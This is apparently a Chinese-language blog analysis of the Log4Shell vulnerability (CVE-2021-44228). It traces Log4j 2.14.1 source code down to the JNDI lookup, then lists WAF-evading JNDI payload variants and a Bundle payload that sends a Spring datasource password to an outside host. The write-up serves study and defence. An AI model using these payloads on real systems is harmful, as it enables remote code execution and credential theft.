去年12月份爆出了`log4j2 RCE`的漏洞（`CVE-2021-44228`），该漏洞利用难度低，危害大，且影响范围广泛，这将有可能是载入安全史册的漏洞，作为史诗级漏洞的见证者，写个漏洞分析留个底还是有必要的😄

## 0x00 漏洞复现

复现比较简单，先引入`log4j` 版本`2.14.1`的包，我这里配的是`lombok`+`sprint-boot-starter-log4j2`，`starter 2.5.7`依赖的是`2.14.1`版本的log4j



或者换做直接引`log4j`的包也是OK的。



通过JNDI注入利用[工具](https://github.com/welk1n/JNDI-Injection-Exploit)在本地启动JNDI服务，根据项目JDK版本在`log.error`中插入对应payload即可触发



## 0x01 代码分析

### 日志记录

跟入error方法，在`AbstractLogger`类的`logIfEnabled`方法中进行一层判断，满足了配置的log等级才输出日志

```java
public void logIfEnabled(final String fqcn, final Level level, final Marker marker, final String message) {
    if (this.isEnabled(level, marker, message)) {
        this.logMessage(fqcn, level, marker, message);
    }
}
```

跟到`isEnabled`方法下面看看是怎么判断，可以看到filter方法中302行会判断传入的level是否大于配置的level，日志输出等级从低到高是`All < Trace < Debug < Info < Warn < Error < Fatal < OFF`，程序会打印高于或等于所设置级别的日志，而默认配置为`error`等级，这也就是为什么默认配置下`error`和`fatal`可以触发，而`debug/info/warn`触发不了的原因。



我们也可以通过修改log4j2.xml配置来配置日志输出等级



接着从`logMessage`方法往下跟到`AbstractOutputStreamAppender`类的`directEncodeEvent`方法，89行跟入`encode`方法

```java
protected void directEncodeEvent(final LogEvent event) {
    // 跟入
    this.getLayout().encode(event, this.manager);
    if (this.immediateFlush || event.isEndOfBatch()) {
        this.manager.flush();
    }
}
```

在`PatternLayout`类实现`encode`方法，接着关注`toText`方法

```java
public void encode(final LogEvent event, final ByteBufferDestination destination) {
    if (!(this.eventSerializer instanceof Serializer2)) {
        super.encode(event, destination);
    } else {
        // 跟入toText方法
        StringBuilder text = this.toText((Serializer2)this.eventSerializer, event, getStringBuilder());
        Encoder<StringBuilder> encoder = this.getStringBuilderEncoder();
        encoder.encode(text, destination);
        trimToMaxSize(text);
    }
}
```

```java
private StringBuilder toText(final Serializer2 serializer, final LogEvent event, final StringBuilder destination) {
    return serializer.toSerializable(event, destination);
}
```

### 消息格式化

跟入`toSerializable`方法，遍历类型为`org.apache.logging.log4j.core.pattern.PatternFormatter`类的`formatters`数组，调用其`format`方法，这里只需关注第8次循环的`format`方法，漏洞就是在这个`format`中触发



```java
public void format(final LogEvent event, final StringBuilder buf) {
    if (this.skipFormattingInfo) {
        // 第8次循环的converter实现为MessagePatternConverter类，跟入
        this.converter.format(event, buf);
    } else {
        this.formatWithInfo(event, buf);
    }

}
```

再看看`MessagePatternConverter`中的`format`实现，在判断log内容包含`${`后，将`evet`带入的`replace`方法

```java
public void format(final LogEvent event, final StringBuilder toAppendTo) {
    Message msg = event.getMessage();
    if (msg instanceof StringBuilderFormattable) {
        boolean doRender = this.textRenderer != null;
        StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;
        int offset = workingBuilder.length();
        if (msg instanceof MultiFormatStringBuilderFormattable) {
            ((MultiFormatStringBuilderFormattable)msg).formatTo(this.formats, workingBuilder);
        } else {
            ((StringBuilderFormattable)msg).formatTo(workingBuilder);
        }

        if (this.config != null && !this.noLookups) {  // 2.14.1及一下版本的noLookups默认为false
            for(int i = offset; i < workingBuilder.length() - 1; ++i) {
                // 判断log内容是否包含'${'
                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                    String value = workingBuilder.substring(offset, workingBuilder.length());
                    workingBuilder.setLength(offset);
                    // 跟入replace方法
                    workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
                }
            }
        }
```

在`org.apache.logging.log4j.core.util.Constants`类中可以看到noLookpus默认为false

```java
public static final boolean FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS = PropertiesUtil.getProperties().getBooleanProperty("log4j2.formatMsgNoLookups", false);
```

### 字符替换

跟入`org.apache.logging.log4j.core.lookup.StrSubstitutor`类的`replace`方法，里面调用`StrSubstitutor`类的`substitute`方法

```java
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    } else {
        StringBuilder buf = new StringBuilder(source);
        // 跟入
        return !this.substitute(event, buf, 0, source.length()) ? source : buf.toString();
    }
}
```

```java
protected boolean substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length) {
    return this.substitute(event, buf, offset, length, (List)null) > 0;
}
```

接着看看`StrSubstitutor`类，定义了一些类型为`org.apache.logging.log4j.core.lookup.StrMatcher`的成员变量，如下

```java
public static final char DEFAULT_ESCAPE = '$';
public static final StrMatcher DEFAULT_PREFIX = StrMatcher.stringMatcher("${");
public static final StrMatcher DEFAULT_SUFFIX = StrMatcher.stringMatcher("}");
public static final String DEFAULT_VALUE_DELIMITER_STRING = ":-";
public static final StrMatcher DEFAULT_VALUE_DELIMITER = StrMatcher.stringMatcher(":-");
public static final String ESCAPE_DELIMITER_STRING = ":\\-";
public static final StrMatcher DEFAULT_VALUE_ESCAPE_DELIMITER = StrMatcher.stringMatcher(":\\-");
```

可以理解`StrMatcher`类为`log4j`内置的字符匹配器，先看下该类的`isMath`方法，可以看到是指定一个char数组的起始位置和匹配长度去匹配另一个char数组，若完全匹配上则返回匹配上的长度，没匹配上返回`0`，该方法在接下来的`substitute`方法中会用到较多，所以这里提一下



接下来看`StrSubstitutor`类的`substitute`，该方法就是本次漏洞触发的关键方法

先while循环去匹配字符串中的前缀字符`${`



接着将前缀`${`后面的字符串通过while循环匹配后缀`}`，在while循环中匹配后缀之前，会先判断剩下的字符串是否还存在前缀，每匹配一次前缀则`nestedVarCount`加一，当该变量不为`0`且匹配中一次后缀`}`会减一，通过该变量来匹配出最外层`${}`包裹的表达式，然后将匹配后的表达式继续往下递归，以满足嵌套的场景



接着判断是否包含`:-`和`:\-`分割符，然后做一些分割处理（变形思路1），这里判断较多，就不挨个描述，简单概括为

- `:-` 是一个分割符，如果程序处理到 `${aaaa:-bbbb}` 这样的字符串，处理的结果将会是 `bbbb`，`:-` 关键字将会被截取掉，而之前的字符串都会被舍弃掉。
- `:\-` 是转义的 `:-`，如果一个用 `a:b` 表示的键值对的 key `a` 中包含 `:`，则需要使用转义来配合处理，例如 `${aaa:\\-bbb:-ccc}`，代表 key 是，`aaa:bbb`，value 是 `ccc`。



在没有匹配上分隔符或分割处理完后，会调用`resolveVariable`方法进行解析，将返回的结果替换回原字符串后，再次调用 `substitute` 方法进行递归解析



### Lookup

`resolveVariable`方法会调用`resolver`解析器的`lookup`方法，可以看到这里`resolver`支持12种类型的`lookup`实现（变形思路2）



接着跟入`lookup`方法，来到了`org.apache.logging.log4j.core.lookup.Interpolator`拦截器，该拦截器通过不同前缀分配对应的`lookup`方法实现



继续跟进`lookup`可以看到，我们传入的是jndi前缀，所以会调用`org.apache.logging.log4j.core.lookup.JndiLookup`的`lookup`方法，到这就触发漏洞了。



## 0x02 payload变形思路

### 增加`:-`干扰

上面说到当字符串种包含`:-`和`:\-`会做一些处理，我们就可以该处理逻辑来变形绕过一些waf，例如`${${p0melo:-j}ndi:ldap://127.0.0.1:1389/kk2err}`

### 嵌套其他协议

上面分析中可以看到`StrLookup`除了支持jndi协议还支持其他协议`{date, ctx, lower, upper, main, env, sys, sd, java, marker, jndi, jvmrunargs, event, bundle, map, log4j}`，所以我们可以通过其他协议变形payload

```java
${${lower:j}ndi:ldap://127.0.0.1:1389/kk2err}
${${lower:j}${upper:n}di:${lower::::l}dap://127.0.0.1:1389/kk2err} // 可以嵌套多个
```

当然我们也可以组合上面两种思路，例如

```java
${${lower:${p0melo:-j}}ndi:ldap://127.0.0.1:1389/kk2err}
${${p0melo:-${lower:J}}ndi:ldap://127.0.0.1:1389/kk2err}
```



### **Bundle外带**

方法来自[浅蓝师傅博客](https://b1ue.cn/archives/513.html) ，还可以使用Bundle获取特殊变量值并外带，spring环境下可以尝试获取

```java
${jndi:ldap://jndi.fuzz.red:5/ku8r/${bundle:application:spring.datasource.password}}
```


